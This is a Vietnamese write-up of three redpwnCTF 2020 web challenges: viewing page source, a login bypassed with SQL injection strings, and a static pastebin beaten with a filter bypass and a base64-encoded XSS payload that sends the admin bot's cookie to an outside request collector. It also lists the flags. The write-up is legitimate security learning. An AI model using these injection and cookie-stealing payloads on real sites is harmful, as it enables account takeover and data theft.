




Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nhận ra giải cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.



<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!--  -->


<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
<br />
  Site: static-pastebin.2020.redpwnc.tf
<br />
  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag.



Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
></img>
```

`RequestBin` sẽ là công cụ như là `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!--  -->


<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***
